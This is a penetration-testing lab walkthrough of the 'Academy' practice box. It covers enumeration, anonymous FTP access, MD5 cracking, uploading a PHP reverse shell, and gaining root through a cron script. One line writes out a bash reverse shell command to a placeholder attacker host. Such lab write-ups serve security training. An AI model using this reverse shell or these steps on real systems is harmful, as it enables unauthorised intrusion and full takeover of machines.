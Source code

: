# Academy Box - Provided by TCM Security

- Box has IP address `10.0.2.10`

## Scanning and Enumeration

- Running nmap scan against target machine

    ![Nmap Results](./screenshots/2022-03-03-22-37-33.png)

- Interest findings
  - Port `21/tcp - ftp - Anonymous FTP login allowed - vsftpd 3.0.3`
  - Port `22/tcp - SSH - OpenSSH 7.9p1 Debian`
  - Port `80/tcp - http - Apache2 httpd 2.4.38`
  - OS details - `Linux 4.15 | 5.6`

- Since I found port `80` open, running `nikto` against target
  
  ![Nikto results](./screenshots/2022-03-03-22-50-28.png)

- Also ran `Disbuster`
  
  ![Dirbuster](./screenshots/2022-03-03-23-16-19.png)

## Research

- `Anonymous FTP login allowed (FTP code 230)` was interesting in the results.
  - Found this site - [Anonymous Login](https://vk9-sec.com/anonymous-login/)

## Exploitation

- Using `auxiliary/scanner/ftp/anonymous` module to detect anonymous FTP access

    ![Anonymous FTP](./screenshots/2022-03-03-22-56-35.png)

  - Results show anonymous login has `READ` permissions

- Used `anonymous` user to connect to FTP target machine

    ![FTP Anonymous Connection](./screenshots/2022-03-03-23-01-59.png)

- I was able to get the `note.txt` from the target. These are the contents of it

    ![note.txt contents](./screenshots/2022-03-03-23-05-06.png)

- Grabbed the hash from the file and used `hash-identifier`, determined it was an `MD5` hash

    ![hash-identifier](./screenshots/2022-03-03-23-09-19.png)

- Used `hashcat` to crack the hash which turned out to be `student`

    ![Hashcat](./screenshots/2022-03-03-23-15-16.png)

- Grabbed the Registration number from `note.txt` and the cracked password to login.
- Once logged in was prompted to change password, so I went ahead and did that.

  ![Logged in](./screenshots/2022-03-03-23-20-58.png)

- Used a [`php-reverse-shell`](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) by uploading it to the site using the photo upload

  ![Uploaded File](./screenshots/2022-03-04-17-14-33.png)

- Set `netcat` to listen on the port the exploit uses

  ![Popped Shell](./screenshots/2022-03-04-17-14-09.png)

## Privilege Escalation

- Downloaded `linpeas.sh` and put it in a transfer folder.
- Then used python to host a web server and then did `wget` on the victim machine

  ![Attacker Web server](./screenshots/2022-03-04-17-26-57.png)

  ![Victim machine](./screenshots/2022-03-04-17-27-07.png)

- Ran `linpeas.sh` on the victim machine
- Found user `grimmie` and a password - was able to ssh using these credentials

  ![SSH connection](./screenshots/2022-03-04-17-51-00.png)

- Found file `/home/grimmie/backup.sh` - and figured out it runs every minute
- Added a bash reverse shell one-liner - `bash -i >& /dev/tcp/ATTACK_IP/PORT 0>&1`
- Set netcat to listen on port

  ![Reverse Shell](./screenshots/2022-03-04-18-08-33.png)

- Executes as `root` and pops a `root` shell on the attacker machine

  ![Root Shell](./screenshots/2022-03-04-18-11-27.png)

- Found `flag.txt`

  ![flag.txt](./screenshots/2022-03-04-18-12-52.png)
